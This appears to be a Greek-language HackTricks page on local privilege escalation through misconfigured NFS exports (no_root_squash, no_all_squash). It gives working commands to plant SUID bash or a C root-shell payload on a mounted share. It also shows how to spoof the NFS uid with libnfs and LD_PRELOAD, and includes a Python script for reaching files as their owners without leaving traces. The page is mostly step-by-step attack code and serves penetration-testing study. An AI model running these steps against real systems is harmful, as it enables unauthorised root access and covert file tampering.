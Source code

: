 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}


Διαβάστε το _ **/etc/exports** _ αρχείο, αν βρείτε κάποιον κατάλογο που είναι ρυθμισμένος ως **no\_root\_squash**, τότε μπορείτε να **έχετε πρόσβαση** σε αυτόν **ως πελάτης** και να **γράφετε μέσα** σε αυτόν τον κατάλογο **σαν** να ήσασταν ο τοπικός **root** της μηχανής.

**no\_root\_squash**: Αυτή η επιλογή δίνει βασικά εξουσία στον χρήστη root στον πελάτη να έχει πρόσβαση σε αρχεία στον NFS server ως root. Και αυτό μπορεί να οδηγήσει σε σοβαρές επιπτώσεις ασφαλείας.

**no\_all\_squash:** Αυτή είναι παρόμοια με την επιλογή **no\_root\_squash** αλλά εφαρμόζεται σε **μη-root χρήστες**. Φανταστείτε, έχετε ένα shell ως χρήστης nobody; ελέγξατε το αρχείο /etc/exports; η επιλογή no\_all\_squash είναι παρούσα; ελέγξτε το αρχείο /etc/passwd; μιμηθείτε έναν μη-root χρήστη; δημιουργήστε ένα αρχείο suid ως αυτός ο χρήστης (με την τοποθέτηση χρησιμοποιώντας nfs). Εκτελέστε το suid ως χρήστης nobody και γίνετε διαφορετικός χρήστης.

# Privilege Escalation

## Remote Exploit

Αν έχετε βρει αυτή την ευπάθεια, μπορείτε να την εκμεταλλευτείτε:

* **Τοποθετώντας αυτόν τον κατάλογο** σε μια μηχανή πελάτη, και **ως root αντιγράφοντας** μέσα στον τοποθετημένο φάκελο το **/bin/bash** δυαδικό και δίνοντάς του **SUID** δικαιώματα, και **εκτελώντας από τη μηχανή του θύματος** αυτό το δυαδικό bash.
```bash
#Attacker, as root user
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /bin/bash .
chmod +s bash

#Victim
cd <SHAREDD_FOLDER>
./bash -p #ROOT shell
```
* **Τοποθετώντας αυτόν τον φάκελο** σε μια μηχανή-πελάτη, και **ως root αντιγράφοντας** μέσα στον τοποθετημένο φάκελο το προετοιμασμένο payload μας που θα εκμεταλλευτεί την άδεια SUID, δίνοντάς του **δικαιώματα SUID**, και **εκτελώντας από τη μηχανή του θύματος** αυτό το δυαδικό (μπορείτε να βρείτε εδώ μερικά [C SUID payloads](payloads-to-execute.md#c)).
```bash
#Attacker, as root user
gcc payload.c -o payload
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /tmp/payload .
chmod +s payload

#Victim
cd <SHAREDD_FOLDER>
./payload #ROOT shell
```
## Local Exploit

{% hint style="info" %}
Σημειώστε ότι αν μπορείτε να δημιουργήσετε ένα **τούνελ από τη μηχανή σας στη μηχανή του θύματος, μπορείτε ακόμα να χρησιμοποιήσετε την απομακρυσμένη έκδοση για να εκμεταλλευτείτε αυτή την κλιμάκωση προνομίων, τοποθετώντας τα απαιτούμενα ports**.\
Το παρακάτω κόλπο ισχύει στην περίπτωση που το αρχείο `/etc/exports` **υποδεικνύει μια διεύθυνση IP**. Σε αυτή την περίπτωση **δεν θα μπορείτε να χρησιμοποιήσετε** σε καμία περίπτωση την **απομακρυσμένη εκμετάλλευση** και θα χρειαστεί να **καταχραστείτε αυτό το κόλπο**.\
Ένα άλλο απαιτούμενο προαπαιτούμενο για να λειτουργήσει η εκμετάλλευση είναι ότι **η εξαγωγή μέσα στο `/etc/export`** **πρέπει να χρησιμοποιεί την ένδειξη `insecure`**.\
\--_Δεν είμαι σίγουρος αν το `/etc/export` υποδεικνύει μια διεύθυνση IP, αν αυτό το κόλπο θα λειτουργήσει_--
{% endhint %}

## Basic Information

Το σενάριο περιλαμβάνει την εκμετάλλευση ενός προσαρτημένου NFS share σε μια τοπική μηχανή, εκμεταλλευόμενο ένα σφάλμα στην προδιαγραφή NFSv3 που επιτρέπει στον πελάτη να καθορίσει το uid/gid του, ενδεχομένως επιτρέποντας μη εξουσιοδοτημένη πρόσβαση. Η εκμετάλλευση περιλαμβάνει τη χρήση του [libnfs](https://github.com/sahlberg/libnfs), μιας βιβλιοθήκης που επιτρέπει την πλαστογράφηση κλήσεων RPC NFS.

### Compiling the Library

Τα βήματα για τη συμπίεση της βιβλιοθήκης μπορεί να απαιτούν προσαρμογές με βάση την έκδοση του πυρήνα. Σε αυτή την συγκεκριμένη περίπτωση, οι κλήσεις syscalls fallocate είχαν σχολιαστεί. Η διαδικασία συμπίεσης περιλαμβάνει τις παρακάτω εντολές:
```bash
./bootstrap
./configure
make
gcc -fPIC -shared -o ld_nfs.so examples/ld_nfs.c -ldl -lnfs -I./include/ -L./lib/.libs/
```
### Διεξαγωγή της Εκμετάλλευσης

Η εκμετάλλευση περιλαμβάνει τη δημιουργία ενός απλού προγράμματος C (`pwn.c`) που ανυψώνει τα δικαιώματα σε root και στη συνέχεια εκτελεί ένα shell. Το πρόγραμμα μεταγλωττίζεται και το προκύπτον δυαδικό αρχείο (`a.out`) τοποθετείται στο κοινόχρηστο με suid root, χρησιμοποιώντας το `ld_nfs.so` για να προσποιηθεί το uid στις κλήσεις RPC:

1. **Μεταγλωττίστε τον κώδικα εκμετάλλευσης:**
```bash
cat pwn.c
int main(void){setreuid(0,0); system("/bin/bash"); return 0;}
gcc pwn.c -o a.out
```

2. **Τοποθετήστε την εκμετάλλευση στο κοινόχρηστο και τροποποιήστε τα δικαιώματά της προσποιούμενοι το uid:**
```bash
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so cp ../a.out nfs://nfs-server/nfs_root/
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chown root: nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chmod o+rx nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chmod u+s nfs://nfs-server/nfs_root/a.out
```

3. **Εκτελέστε την εκμετάλλευση για να αποκτήσετε δικαιώματα root:**
```bash
/mnt/share/a.out
#root
```

## Μπόνους: NFShell για Διακριτική Πρόσβαση σε Αρχεία
Μόλις αποκτηθεί η πρόσβαση root, για να αλληλεπιδράσετε με το NFS κοινόχρηστο χωρίς να αλλάξετε την ιδιοκτησία (για να αποφύγετε την αφή ίχνους), χρησιμοποιείται ένα σενάριο Python (nfsh.py). Αυτό το σενάριο προσαρμόζει το uid ώστε να ταιριάζει με αυτό του αρχείου που προσπελάζεται, επιτρέποντας την αλληλεπίδραση με αρχεία στο κοινόχρηστο χωρίς προβλήματα δικαιωμάτων:
```python
#!/usr/bin/env python
# script from https://www.errno.fr/nfs_privesc.html
import sys
import os

def get_file_uid(filepath):
try:
uid = os.stat(filepath).st_uid
except OSError as e:
return get_file_uid(os.path.dirname(filepath))
return uid

filepath = sys.argv[-1]
uid = get_file_uid(filepath)
os.setreuid(uid, uid)
os.system(' '.join(sys.argv[1:]))
```
Τρέξτε όπως:
```bash
# ll ./mount/
drwxr-x---  6 1008 1009 1024 Apr  5  2017 9.3_old
```
{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
